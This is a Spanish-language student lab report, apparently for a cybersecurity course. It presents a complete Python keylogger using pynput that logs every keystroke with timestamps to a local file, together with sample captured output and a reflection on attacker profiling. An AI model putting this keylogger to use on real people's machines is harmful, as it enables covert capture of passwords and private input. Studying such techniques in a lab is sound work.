




Objetivo
Implementar y documentar en un entorno de laboratorio controlado, un programa basado en event hooks y callbacks que permite registrar eventos de teclado, asociarlo temporalmente y trasmitir telemetría con el fin de comprender el funcionamiento técnico de una técnica de captura de entrada y reconocer sus implicaciones dentro de la ciberseguridad.
Desarrollo
A partir del código estudiado en clase, se desarrolló una versión ampliada que incorporo los siguientes elementos:

Persistencia del registro
Se modifico el código para que almacenara los eventos generados durante la ejecución en un archivo local, usando la persistencia solicitada exclusivamente en los registros, no a la ejecución del programa al iniciar el sistema.

Asociación temporal
Cada evento registrado incluye una marca de fecha y hora utilizando la siguiente estructura:
Fecha | ACCIÓN | tecla
Esto con la finalidad de identificar cuando ocurrió el evento, en que orden ocurrió, cuanto tiempo transcurrió entre eventos.

Código
El código implementa un programa en Python diseñado para monitorear y registrar eventos de entrada del teclado en segundo plano. Su objetivo principal es capturar cada pulsación y liberación de tecla, asociarlas a una marca de tiempo precisa y guardar esta información de manera persistente en un archivo de texto para su posterior análisis cronológico.
from pynput.keyboard import Key, Listener
from datetime import datetime
#Nombre del Archivo donde se guardaran los registros
ARCHIVO_LOG = "registro_eventos.txt"
def registrar_eventos(accion, key):
#Obtenemos la fecha y hora actual con presicion de milisegundos
marca_tiempo = datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')[:-3]
#Extraer el valor de la tecla en forma limpia
try:
# Si es una tecla alfanumérica, tomamos el carácter
tecla_str = key.char
except AttributeError:
# Si es una tecla especial, la convertimos a texto
tecla_str = str(key)
#Construir la cadena con el formato solicitado
linea_registro = f"{marca_tiempo} | {accion} | {tecla_str}\n"
#Guardamos la linea en el archivo abriendolo en modo "a"
with open(ARCHIVO_LOG, "a", encoding="utf-8") as archivo:
archivo.write(linea_registro)
def on_press(key):
# Registramos el evento de presionar
registrar_eventos("PRESS", key)
def on_release(key):
# Registramos el evento de soltar
registrar_eventos("RELEASE", key)
# Condición de salida
if key == Key.esc:
return False
# Iniciamos el listener
with Listener(on_press=on_press, on_release=on_release) as listener:
listener.join()Y aquí, la salida correspondiente del archivo generado durante la prueba:
2026-08-23 16:35:52.548 | PRESS | h
2026-08-23 16:35:52.634 | RELEASE | h
2026-08-23 16:35:52.967 | PRESS | o
2026-08-23 16:35:53.030 | RELEASE | o
2026-08-23 16:35:53.267 | PRESS | l
2026-08-23 16:35:53.353 | RELEASE | l
2026-08-23 16:35:53.635 | PRESS | a
2026-08-23 16:35:53.697 | RELEASE | a
2026-08-23 16:35:54.263 | PRESS | Key.space
2026-08-23 16:35:54.334 | RELEASE | Key.space
2026-08-23 16:35:54.592 | PRESS | s
2026-08-23 16:35:54.646 | RELEASE | s
2026-08-23 16:35:54.846 | PRESS | o
2026-08-23 16:35:54.901 | RELEASE | o
2026-08-23 16:35:55.192 | PRESS | y
2026-08-23 16:35:55.255 | RELEASE | y
2026-08-23 16:35:55.502 | PRESS | Key.space
2026-08-23 16:35:55.572 | RELEASE | Key.space
2026-08-23 16:35:55.809 | PRESS | l
2026-08-23 16:35:55.871 | RELEASE | l
2026-08-23 16:35:56.033 | PRESS | a
2026-08-23 16:35:56.104 | RELEASE | a
2026-08-23 16:35:56.366 | PRESS | r
2026-08-23 16:35:56.429 | RELEASE | r
2026-08-23 16:35:56.823 | PRESS | z
2026-08-23 16:35:56.893 | RELEASE | z
2026-08-23 16:36:01.160 | PRESS | Key.esc
2026-08-23 16:36:01.206 | RELEASE | Key.esc

Conclusión
En esta practica me ha permitido entender el funcionamiento técnico de una técnica de captura de entrada y reconocer sus implicaciones dentro de la ciberseguridad, su entendimiento ha de sido de mucha importancia ya que la incorporación de persistencia y asociación temporal evidencia cómo un atacante podría perfilar el comportamiento de una víctima para extraer información sensible, subrayando la criticidad de mantener controles de seguridad estrictos.